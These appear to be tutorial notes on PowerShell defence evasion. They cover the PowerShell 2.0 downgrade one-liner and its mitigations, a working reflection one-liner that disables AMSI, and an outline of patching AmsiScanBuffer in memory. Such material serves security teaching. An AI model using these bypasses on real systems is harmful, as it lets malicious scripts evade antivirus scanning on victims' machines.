 # PS Downgrade
The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.

Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

The attack only requires a one-liner to execute in our session. We can launch a new PowerShell process with the flags `-Version` to specify the version (2).

```text-plain
PowerShell -Version 2
```

The two easiest mitigations are removing the PowerShell 2.0 engine from the device and denying access to PowerShell 2.0 via application blocklisting.

```text-plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

First, the snippet will call the reflection function and specify it wants to use an assembly from `[Ref.Assembly]` it will then obtain the type of the AMSI utility using `GetType`.

```text-plain
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using `GetField`.

```text-plain
.GetField('amsiInitFailed','NonPublic,Static')
```

The assembly and field information will then be forwarded to the next parameter to set the value from `$false` to `$true` using `SetValue`.

```text-plain
.SetValue($null,$true)
```

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: AMSI\_RESULT\_NOT\_DETECTED = 1

Patching AMSI:
--------------

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the PowerShell process at startup; our session has the same permission level as the utility.

At a high-level AMSI patching can be broken up into four steps,

1.  Obtain handle of `amsi.dll`
2.  Get process address of `AmsiScanBuffer`
3.  Modify memory protections of `AmsiScanBuffer`
4.  Write opcodes to `AmsiScanBuffer`
